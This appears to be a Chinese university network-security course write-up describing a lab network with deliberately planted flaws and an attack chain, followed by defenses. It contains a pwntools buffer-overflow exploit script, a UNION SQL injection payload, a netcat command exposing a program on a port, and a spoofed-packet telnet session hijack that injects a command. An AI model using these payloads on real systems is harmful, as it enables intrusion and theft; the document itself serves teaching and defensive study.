


# 企业级网络的安全利用和漏洞

**ddl**：6.5日晚 20:00

### 设计要求

+ 设计一个企业级的网络拓扑： 
  + 网络中最少包含3台主机，分别为不同实体，如：攻击者、网关以及服务器 
  + 鼓励在网络拓扑中加入更多的主机，但要求网络中的每台主机均需对攻击或防 御有贡献
+ 在企业级网络内部署相应的服务，设计可以被（攻击者）利用的安全漏洞
+ 从攻击者的角度，利用网络中的安全漏洞，最少实现3类攻击 
  + 设计的攻击之间应具有关联性，由其构成的攻击链最终应为一个攻击目的服务 
  +  实现的攻击类型应为密码破解攻击、中间人攻击、缓冲区溢出攻击、网络扫描、 网络嗅探与欺骗攻击、Web漏洞利用中的几种 
  + 实现攻击的工具应为课程实验中学习的相关开源工具
+ 从网络管理者的角度，针对上述安全漏洞，设计并实施相应的防御措施

### 设计内容

#### 网络拓扑




#### 环境配置

##### 网络配置

Attacker NAT网络 10.0.2.9

Zombie NAT网络  10.0.2.8

gateway NAT网络 内部网络 10.0.2.7 192.168.55.1

Server 内部网络 192.168.55.101

##### 其他

Server中使用mj修改的高端大气上档次的前端页面

相关配置

```
sudo cp -r front/ /var/www/
cd /etc/apache2/sites-available/
sudo gedit 000-default.conf
<VirtualHost *:80>
 ServerName http://www.Architectural-design.com
 DocumentRoot /var/www/Architectural-design
</VirtualHost>
```

修改SQLi.sql，添加以下语句(这个符号`也太鬼畜了)

```sql
DROP TABLE IF EXISTS `USER`;
CREATE TABLE `USER` (
	`ID` int(6) unsigned NOT NULL AUTO_INCREMENT,
	`Name` varchar(30) NOT NULL,
	`Password` varchar(300) NOT NULL,
	PRIMARY KEY (`ID`)
);

INSERT INTO `USER` VALUES (1,'admin','5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8'); # password的SHA1值
```

导入数据库

```sh
sudo mysql -u root
mysql> use elgg;
mysql> source SQLi.sql;
mysql> exit
```

启动APACHE服务

```
sudo service apache2 restart
```

Gateway中含有本次实验所要获取到文件资源(flag)

通过设置iptable和ipv4.forward使得外网主机能访问内网服务器



iptable配置

```
sudo iptables -t nat -A PREROUTING -p tcp -d 10.0.2.7 --dport 80 -j DNAT --to-destination 192.168.55.101:80
sudo iptables -t nat -A PREROUTING -d 172.20.10.5 -j DNAT --to-destination 192.168.58.100
```

Zombie主机修改/etc/hosts文件

```
[gateway_address]	www.Architectural-design.com
```

主机安装dirsearch

```sh
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
python3 dirsearch.py -u <URL> -e <EXTENSION>
```

使用方法

```
python3 dirsearch.py -u www.sql-injection.com/unsafe
```

Zombie主机启动网络后门

```sh
sudo apt-get install netcat-traditional
sudo update-alternatives --config nc
```

**部署缓冲区溢出攻击**

设置nc

```
sudo apt-get install netcat-traditional
sudo update-alternatives --config nc
```

将exploit部署到12345端口

```
nc -l -p 12345 -e exploit
```

attacker运行exp.py

```python
from pwn import *
p=remote('10.0.2.8',12345)
#p=process('.')

payload=b'\x00'*(0x88)+p64(0x400596)

p.send(payload)

p.interactive()
# 需安装pwntools pip3 install pwntools
```

**命令行浏览器w3m安装**

```
sudo apt install w3m w3m-img
```

示例

```
w3m baidu.com
```

#### 漏洞设计

1. SQLi漏洞
2. 弱口令
3. telnet会话劫持
3. 缓冲区溢出攻击

#### 攻击过程

1. 攻击者通过缓冲区溢出攻击获取Zombie主机控制权
2. Zombie对Web网站进行dirsearch扫描
3. 攻击者控制僵尸主机访问Web网站，实行SQLi攻击，获取数据库中口令文件内容
4. 攻击者利用僵尸主机ssh登录服务器，在服务器上进行nmap网络扫描
5. 攻击者利用僵尸主机在Server上进行Telnet会话劫持，读取gateway文件

#### 攻击步骤

1. 攻击者通过缓冲区溢出攻击获取Zombie的shell

首先Zombie在端口12345上开启服务，部署含有缓冲区溢出漏洞的程序


然后Attacker运行脚本文件，访问Zombie的12345端口，并通过缓冲区溢出攻击获得Zombie主机的控制权


2. 攻击者访问server网站，寻找可以进行sql注入的页面，并进行sql注入

3. 攻击者对获取的密码进行爆破，获取密码
4. 攻击者利用攻击者利用僵尸主机ssh登录服务器，在服务器上进行nmap网络扫描


##### SQLi

```sql
alic' union select 0,Name,Password,0,0,0,0,0,0,0,0 from USER #
```

##### telnet劫持

```
sudo netwox 40 --ip4-dontfrag --ip4-offsetfrag 0 \
--ip4-ttl 64 --ip4-protocol 6 \
--ip4-src 192.168.55.101 \
--ip4-dst 192.168.55.1 \
--tcp-src 48384 \
--tcp-dst 23 \
--tcp-seqnum 946645669 \
--tcp-acknum 1482793484 \
--tcp-ack --tcp-psh \
--tcp-window 501 \
--tcp-data "'cat flag'0d0a" \
--spoofip "best"
```

##### tshark

```
sudo tshark -i enp0s8 -f 'dst port 23 or src port 23' -V -T text -q
```

#### 防御措施

1. sql参数化查询防止sql注入

```php
$sql = $conn->prepare("SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
      FROM credential
      WHERE name= ? and Password= ?");
      $sql->bind_param("ss", $input_uname, $hashed_pwd);
      $sql->execute();
      $sql->bind_result($id, $name, $eid, $salary, $birth, $ssn, $phoneNumber, $address, $email, $nickname, $pwd);
```


2. 编译时增加栈保护机制来避免栈溢出攻击

```
gcc -o safe safe.c -fstack-protector-strong
```


3. 网关防火墙限制ssh连接服务器

```
sudo iptables -t filter -A FORWARD --destination 192.168.55.101 -p tcp --dport 22 -j REJECT
```

